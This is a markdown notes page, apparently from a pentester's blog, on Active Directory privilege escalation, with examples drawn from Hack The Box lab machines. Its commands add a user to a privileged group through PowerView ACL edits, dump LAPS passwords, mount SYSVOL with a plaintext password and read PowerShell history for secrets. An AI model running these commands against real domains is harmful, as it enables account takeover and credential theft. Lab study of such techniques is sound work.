 ```yaml
---
description: >-
  Active Directory Privilege Escalation Techniques
title: Active Directory Privilege Escalation              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Active Directory Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Assign user to a group

This is a repository of techniques to get Domain Admin via multiple techniques.
```powershell
Import-Module ./PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\\JDgodd"

Add-DomainGroupMember -Identity 'Core Staff' -Members 'streamio\\JDgodd' -Credential $Cred

net group 'Core Staff'
```
Examples:
[[StreamIO#dc6ecc]]

### ReadLAPSPassword

We can use the utility laps.py to read LAPS passwords:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
[[StreamIO#^2cc182]]

### SYSVOL Share DC

We can enumerate SMB Shares within the machine: ^cae2ef
```bash
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC 
```
We can try to connect to the shares on the DC:
```bash
PS C:\Users\BTables\Desktop> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables ++FileServerLogon12345++
The command completed successfully.
```
And then we can list the shares in the DC:
```bash
PS C:\Users\BTables\Desktop> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\
Share name  Type  Used as  Comment              
-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.
```
We can then mount the share SYSVOL on the compromised machine to check its content:
```bash
PS C:\Users\BTables\Desktop> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables ++FileServerLogon12345++

The command completed successfully.
```
And we found a ton of scripts inside the Share:
```bash
PS X:\fulcrum.local\scripts> dir
    Directory: X:\fulcrum.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ----- -----                                                                                                                      
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
```

### Powershell History

We can retrieve commands executed on another machine by checking the ConsoleHost_history.txt which is the same as in Linux .bash_history file.
#Note If using this command we need to be on the User's folder since this file is located in the AppData folder:
```bash
PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Examples:
[[Timelapse#^3ceb21]]